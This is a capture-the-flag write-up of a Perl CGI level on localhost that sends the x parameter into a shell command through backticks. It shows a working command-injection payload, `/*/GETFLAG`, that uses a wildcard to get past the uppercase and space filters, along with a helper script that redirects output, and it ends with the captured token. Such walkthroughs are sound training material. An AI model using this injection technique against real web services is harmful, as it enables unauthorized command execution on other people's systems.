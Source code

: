 # Level 12: Command Injection via Perl CGI Script

This document explains the vulnerability in the `level12.pl` script and the steps taken to exploit it.

## 1. Script Explanation

The target is a Perl CGI script (`level12.pl`) listening on `localhost:4646`.

Key parts of the script:

-   It uses the CGI module to get parameters `x` and `y` from the request:
    ```perl
    use CGI qw{param};
    # ... later ...
    n(t(param("x"), param("y")));
    ```
-   The subroutine `t` processes the `x` parameter:
    -   Converts it to uppercase: `$xx =~ tr/a-z/A-Z/;`
    -   Removes everything after the first space: `$xx =~ s/\s.*//;`
    ```perl
    sub t {
      $nn = $_[1]; # y param
      $xx = $_[0]; # x param
      $xx =~ tr/a-z/A-Z/;
      $xx =~ s/\s.*//;
      # ...
    }
    ```
-   It then uses the processed `$xx` value directly within a shell command executed via backticks:
    ```perl
    @output = `egrep "^$xx" /tmp/xd 2>&1`;
    ```
-   The script checks if any line returned by `egrep`, specifically the part after the first colon (`:`), matches the `y` parameter (`$nn`) as a regex. It prints `..` for a match and `.` otherwise.

## 2. Vulnerability Analysis

The primary vulnerability is **Command Injection** in the line:
```perl
@output = `egrep "^$xx" /tmp/xd 2>&1`;
```
The script directly embeds the user-controlled (though modified) `$xx` variable into a command string executed by the system's shell via backticks.

**Challenges:**

1.  **Uppercase Conversion:** `$xx =~ tr/a-z/A-Z/;` prevents direct injection of lowercase commands (like `getflag`).
2.  **Space Removal:** `$xx =~ s/\s.*//;` prevents injecting commands with spaces or arguments separated by spaces.

## 3. Exploitation Method

The vulnerability was exploited by bypassing the uppercase and space removal limitations to execute the `getflag` command and redirect its output to a readable file.

**Steps:**

1.  **Create Helper Script:** A helper script was created at `/tmp/GETFLAG`. Crucially, this script *itself* contained the necessary command and redirection:
    ```bash
    # Command executed in the shell:
    echo "getflag > /tmp/FLAG" > /tmp/GETFLAG
    chmod +x /tmp/GETFLAG
    ```
    When `/tmp/GETFLAG` is executed, it runs `getflag` and writes the output to `/tmp/FLAG`.

2.  **Construct Payload:** The `x` parameter was crafted to execute the helper script using backticks and a wildcard path:
    *   Payload: `` `/*/GETFLAG` ``
    *   This payload contains no spaces, avoiding the space removal issue.
    *   The wildcard `*` is not affected by the uppercase conversion.

3.  **Send Request:** The payload was sent to the script via `nc` (URL encoding wasn't strictly necessary here as the critical characters `*`, `/`, `` ` `` often pass through, but encoding `%60%2A%2FGETFLAG%60` would also work):
    ```http
    GET /?x=`/*/GETFLAG`&y=a HTTP/1.0
    ```
    (Followed by two Enters)

4.  **Execution Trace:**
    *   Perl script receives `` x=`/*/GETFLAG` ``.
    *   Uppercases to ``$xx = `/*/GETFLAG` ``.
    *   Removes spaces (none): `$xx` remains `` `/*/GETFLAG` ``.
    *   Command executed by Perl: `` `egrep "^`/*/GETFLAG`" /tmp/xd 2>&1` ``.
    *   Shell executes inner backticks: `` `/*/GETFLAG` ``.
    *   Shell expands `/*/GETFLAG` to `/tmp/GETFLAG`.
    *   Shell executes the script `/tmp/GETFLAG`.
    *   `/tmp/GETFLAG` runs `getflag > /tmp/FLAG`, writing the flag to `/tmp/FLAG`.
    *   The inner backticks produce no standard output (due to redirection).
    *   The outer `egrep` command runs on an empty pattern prefix.
    *   The Perl script prints `.` (no match found based on `egrep` output).

5.  **Retrieve Flag:** The flag was read from the output file:
    ```bash
    cat /tmp/FLAG
    ```
    Output: `Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr`

This method cleverly used a wildcard path within command substitution to bypass the script's input sanitization and execute the desired command indirectly via the helper script, redirecting the output successfully.